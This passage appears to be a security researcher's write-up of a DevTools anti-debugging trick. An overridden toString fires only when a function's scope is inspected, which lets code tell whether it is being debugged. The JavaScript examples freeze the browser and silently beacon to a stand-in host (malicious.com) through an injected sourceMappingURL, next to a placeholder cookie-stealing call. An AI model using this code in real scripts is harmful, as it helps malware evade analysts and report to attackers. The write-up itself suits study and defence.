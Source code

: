 ```javascript
main();
```

Take the code above and run it in the devtools console twice:
On the first time, step into `main` function, in or over `legit` function (doesn't matter) and then step over `malicious` function.
No alert, right? `malicious` function was executed silently and was not debugged.

On the second time, do the same thing, only this time step in `malicious` function instead of over.
This time, you should get the alert. This is because after evaluating the `detect` variable which adds our special regex variable to the scope, the scope pane now has to display the name of the regex variable that is saved into the `detect` variable.

**This infect allows me to tell which function was debugged when the devtools were open and which wasn't. And not only I can tell that, but I can also choose what action to take when a function is being debugged, and execute that action in a different parallel thread with full access to the main thread!**

What's also very cool about this trick and will give a hard time to anyone trying to debug the attacker's code is that the callback to be called when the function is being debugged cannot be debugged in the devtools because it is a piece of code that is being called by the devtools itself.
Meaning the only way to successfully debug this function is via the developer tools of the developer tools! (you may read this paragraph as many times as you need to, no rush).

This for example will get the browser stuck only when the `malicious` function is debugged (based on the example above):

```javascript
function malicious() {
    const detect = (function(){
        const dummy = function(){};
        dummy.toString = () => {
            while (1) {}
        };
        return dummy;
    }());

    // do a malicious action
    if (window.stealUserCookies) window.stealUserCookies();
}
```

And this can silently notify the attacker's server when the `malicious` function is debugged without the user ever knowing:

```javascript
function  smap(url, data)  {
    const script = document.createElement('script');
    script.textContent =  `//# SourceMappingURL=${url}?data=${JSON.stringify(data)}`;
    document.head.appendChild(script);
    script.remove();
}

function malicious() {
    const detect = (function(){
        const dummy = function(){};
        dummy.toString = () => {
            smap('https://malicious.com/reportFunctionIsDebugged',  {name: 'malicious'});
        };
        return dummy;
    }());

    // do a malicious action
    if (window.stealUserCookies) window.stealUserCookies();
}

```